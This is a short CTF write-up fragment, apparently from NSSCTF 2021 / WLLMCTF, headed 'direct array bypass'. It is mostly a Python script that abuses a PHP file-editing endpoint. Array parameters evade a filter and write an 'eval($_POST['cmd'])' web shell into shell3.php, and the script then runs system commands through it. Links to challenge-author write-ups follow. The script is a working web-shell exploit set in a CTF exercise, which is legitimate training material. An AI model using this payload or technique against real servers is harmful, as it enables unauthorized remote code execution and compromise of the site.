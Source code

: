 直接数组绕过
```python
import pprint
from requests_html import HTMLSession

url = 'http://192.168.61.141/1.php'
# url = 'http://11726-288c65e8-2d63-4075.nss.ctfer.vip:9080/'
params = {
    'f': 'create',
    'content': 'shell3.php',
}
params2 = {
    'f': 'edit',
    'content': 'shell3.php',
    's1[]': "x();",
    's2[]': "eval($_POST['cmd']);"
}

proxies = {}

s = HTMLSession()
s.get(url, params=params, proxies=proxies)
s.get(url, params=params2, proxies=proxies)
res = s.post('http://192.168.61.141/shell3.php', data={'cmd': "system('ls');"})
pprint.pprint(res.text)
```


# SWPU新生赛 // 2021WLLMCTF新生赛


[[NSSCTF 2021]招新赛Crypto出题人笔记](https://www.wd-ljt.com/post/1016/607.html)
[[NSSCTF 2021]招新赛Pwn出题人笔记](https://www.wd-ljt.com/post/1016/603.html)
[[NSSCTF 2021]招新赛Misc出题人笔记](https://www.wd-ljt.com/post/1012/598.html)
[[NSSCTF 2021]招新赛Reverse出题人笔记](https://www.wd-ljt.com/post/1016/609.html)

https://blog.csdn.net/qq_42880719/
加2021WLLMCTF新生赛官方WP.pdf


